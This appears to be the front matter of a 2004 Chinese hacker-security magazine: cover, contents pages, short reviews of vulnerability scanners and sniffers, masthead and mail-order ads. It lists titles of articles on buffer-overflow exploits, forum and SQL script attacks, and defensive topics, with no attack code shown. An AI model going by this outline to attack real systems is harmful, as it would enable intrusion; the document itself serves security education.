# 黑客防线2004合订本（二）第一部分

---

# HACKER DEFENCE

# 黑客防线

## 2004年 2

人民日报未来大型安全论坛手记

木马注入其实很简单



## 漏洞攻击

- Windows heap 溢出新技巧
- 冷眼网络安全
- Foxmail PunyLib.dll 远程缓冲区溢出漏洞
- 菜鸟版 Exploit 编写指南
- 体验 Windows LSA 远程溢出
- Serv-U v5.0.0.4 远程缓冲区溢出分析

### 脚本攻击

- 把 DVBBS 7.0 拉下马
- 榨干 MSSQL 最后一滴血
- PHP 网站漏洞之我见
- 通过数据库备份巧获 Shell

## WinNT 旧设备数据库与黑客的较量

## 构建 Windows 2003 终端主机

附 3CD

23.80元



**工具：** ISS Internet Scanner（应用层风险评估工具）

**网址：** http://www.iss.net/products_services/enterprise_protection/vulnerability_assessment/scanner_internet.php

**类别：** 商业

**平台：** Windows

**简介：** 互联网扫描器（Internet Scanner）始于 1992 年一个小小的开放源代码扫描器。它是相当不错的，但价格昂贵，使用开源软件 Nessus 来代替它也是一个不错的选择。



**工具：** Retina（eEye 公司的风险评估扫描工具）

**网址：** http://www.eeye.com/html/Products/Retina/index.html

**类别：** 商业

**平台：** Windows

**简介：** 鼎鼎大名的安全扫描器，像上面提到的 Nessus 和 ISS Internet Scanner 一样，Retina 的功能也是用于扫描网络内所有的主机并且报告发现的每一个缺陷！



**工具：** Nikto（一款非常全面的 Web 扫描器）

**网址：** http://www.cirt.net/code/nikto.shtml

**类别：** 开放源码

**平台：** Linux/BSD/Unix/Windows

**简介：** Nikto 是一款能对 Web 服务器多种安全项目进行测试的扫描软件，能在 200 多种服务器上扫描出 2000 多种有潜在危险的文件、CGI 及其他问题。它也使用 LibWhisker 库，但通常比 Whisker 更新得更为频繁。



**工具：** Kismet（强大的无线嗅探器）

**网址：** http://www.kismetwireless.net/

**类别：** 开放源码

**平台：** Linux/BSD/Unix/Windows

**简介：** Kismet 是一款 802.11b 网络嗅探和分析程序，功能有：支持大多数无线网卡，能通过 UDP、ARP、DHCP 数据包自动实现网络 IP 阻塞检测，能通过 Cisco Discovery 协议列出 Cisco 设备，弱加密数据包记录，和 Ethereal、tcpdump 兼容的数据包 dump 文件，绘制探测到的网络图和估计网络范围。



**工具：** SuperScan（Windows 平台上的 TCP 端口扫描器）

**网址：** http://www.foundstone.com/index.htm?subnav=resources/navigation.htm&subcontent=/resources/proddesc/superscan.htm

**类别：** 免费

**平台：** Windows

**简介：** SuperScan 是一款具有 TCP connect 端口扫描、Ping 和域名解析等功能的工具，能较容易地做到对指定范围内的 IP 地址进行 Ping 和端口扫描。源代码不公开。







## ——针对最新入侵与攻击的防范研究

| 职务 | 人员 |
|---|---|
| 总编辑 | 孙彬 |
| 执行主编 | 郭晓辉 |
| 编辑部主任 | 吴田锋 |
| 编辑 | 刘流、蝴蝶、脚本小子、草草虫、Socket、彭国军、刘志勇、谭磊 |
| 采编部主任 | 郭嘉 |
| 美编部 | 余钢城、李志文 |
| 技术部 | 徐生震 |
| 发行部 | 孙雁秋 |
| 邮购部 | 郭丽敏 |

| 项目 | 内容 |
|---|---|
| 光盘刊号 | CN15-9201/TP |
| 编辑 | 黑客防线编辑部 |
| 出版 | 家庭电脑世界杂志社 |
| 制作公司 | 北京地海森波网络技术公司 |
| 通信地址 | 北京中关村邮局 008 信箱 |
| 邮政编码 | 100080 |

| 项目 | 内容 |
|---|---|
| 技术支持电话 | 62141445-8031 |
| 投稿 E-mail | hacker@hacker.com.cn |
| 问题解答 E-mail | answer@hacker.com.cn |
| 网址 | http://www.hacker.com.cn |
| 发行部电话 | 62141446 |
| 发行部传真 | 62141360 |
| 邮购部电话 | 62141445-8011 |

| 项目 | 内容 |
|---|---|
| 常年法律顾问 | 北京风清律师事务所 |
| 律师 | 王碧清 |
| 电话 | 13701229137 |
| 传真 | (010) 84510532 |
| E-mail | wangbiqing@163.com |

本刊所刊登文章和图片归北京地海森波网络技术公司所有，未经许可不得转载。本刊作者发表的文章仅代表个人观点，与本公司无关。

国内定价：10.00 元人民币（光盘＋说明书）

### 卷首语

### 业界动态

- 新闻动态 … 2

## 名家专访

- 圈内圈外话 Squall … 4

### 专题推荐

## 你也能做安全专家

- 将个人防火墙的功能发挥到极致 … 6

网络世界从诞生那天起，就从未平静过，人们在享受网络带来的各种便利的同时，却忽视了另一类人在网络上虎视眈眈！防火墙为了维护网络应有的宁静而挺身而出，接着便是各种攻击程序的争先涌现，攻与防两者互不相让，Internet 成了双方较量的战场，无辜的网民和疏于防范的企业成为了这次“战争”的“牺牲品”！在这样的风浪中如何屹立不倒？！请看下文，让你明了什么是真正的防火墙！什么是真正无坚不摧！

## 漏洞攻击防范

- OW 补丁，让 Linux 内核更安全 … 11
- 增加 IMAIL 系统 SMTP 的安全性 … 13

### 脚本攻击防范

- BBSXP 论坛查漏补缺 … 15
- 也说跨站脚本攻击的隐藏
- 如何防止 Flash 跨站攻击弹出 IE 窗口 … 16
- 让“小胖”远离我们 … 18

还记得前段时间网上盛行的各种 PS 的“小胖”的照片吗？一时间，网上肖像权的问题成为热点的话题，谁也不希望自己的作品或照片在网上被盗用吧！但随着互联网的普及和发展，网民计算机水平的提高，Web 页面中的图片被盗用的现象越来越猖獗。在下面的文章中，我们就如何保护 Web 页面中有价值的图片（照片）展开讨论，希望业内人士都来关注此事，让“小胖”现象从此绝迹！

## 目录 2004

## 邮购信息

## 黑器攻击防范

- RootKit 的清除与检测 ·························· 20
- 突破防火墙的利器——隧道防御 ······················ 21
- 网络协议分析好助手——Ethereal ···················· 23
- UtilKit 网管员的福音 ··························· 25

## CVC 病毒专栏

- 剖析 Win32 下杀毒程序编写思路 ··················· 29
- 揭开 Mydoom 病毒的神秘面纱 ····················· 32

在 2004 年 2 月初，大家是不是有这样的经历：Mydoom 病毒爆发期间，自己的每个邮箱几乎都收到了上百封垃圾邮件？据说它在 36 小时内就发送了 1 亿封垃圾邮件，而且微软为此还悬赏 25 万美金来缉拿制作这个病毒的作者！Mydoom 病毒究竟有什么过人之处，有如此大的能量呢？还是让我们一起看看下文作者为我们做的分析报告，揭开它的神秘面纱！

## 网管之家

- 巧设防火墙禁止使用 QQ ························ 34
- WebStress 测试我在行 ························· 38
- IDS+Honeypot = 骇客克星 ······················· 41
- Windows 2000 Server 简单安全入侵检测 ········· 44

### 安全方案

- 专业人士眼中的数据恢复 ······················· 52
- PIX 在高校校园网中的规划与配置 ················ 58
- 细看无线 IDS ································· 61

### 编读互动



定价：35 元

### 内容提要

《黑客防线 2004 精华奉献本》是在《黑客防线》杂志攻、防两册明确定位后推出的第一个精华本，汇总了从《黑客防线》总第 25 期到总第 36 期的精华内容，并且增加新的专题内容融合而成。全书按照攻防关系分为攻册和防册 2 本，内容通俗易懂，图文并茂，非常便于读者阅读。在栏目划分上，选取了《黑客防线》最受读者欢迎的 15 个栏目，特别是漏洞攻击、脚本攻击、黑兵器库和漏洞攻击防范、脚本攻击防范、黑器攻击防范 6 个栏目一一呼应，攻防分明，非常适合读者学习和研究。

本书附赠 2 张光盘。光盘内容包括书中涉及到的不便于书面印刷的所有代码和大量流行的经典工具、技术文献、最新补丁，以及 150 个全程攻防录像演示。本书适合网络管理人员、网络爱好者和网络安全技术人员阅读。

## 邮购信息

| 名称 | 介质 | 价格 |
|---|---|---|
| 黑客防线 11—39 期 | 1CD | 10.00 元 / 期 |
| 黑客防线精华本 2001 | 2CD | 29.00 元 / 本 |
| 中国黑客内幕（6 折） | 1CD | 15.00 元 / 本 |
| 黑客防线增刊 2002 | 1CD | 19.80 元 / 本 |
| 黑客攻防 One To One | 1CD | 19.80 元 / 本 |
| 黑客编程 Follow Me | 1CD | 23.80 元 / 本 |
| 黑客攻击技术揭秘 | 1CD | 23.80 元 / 本 |

《黑客防线》创刊号到《黑客防线》10 期以前的杂志邮购请到我们网站：http://www.hacker.com.cn/book.htm 查询库存数量。

汇款地址：北京市中关村邮局 008 信箱  
邮政编码：100080  
收款人：《黑客防线》邮购部  
热线电话：(010)62141446，62141445-8011  
E-mail：yougoubu@hacker.com.cn

### 《黑客防线》2004年开篇再度回报读者



### 5000套无删减第4季度合订本隆重上市

430 页内容 + 3 张光盘，

### 超值惊喜价 26.00 元

### 限量发售，欲购从速！



### 2000年～2004年《黑客防线》完全合订本

总第 1 期～总第 37 期

- 超低定价 38.00 元 = 1 期杂志 1 元钱
- 不可缺少的学习宝典，不可错失的资料宝库，不可多得的收藏精品
- 一张光盘 = 37 期《黑客防线》无删减合订本电子文件
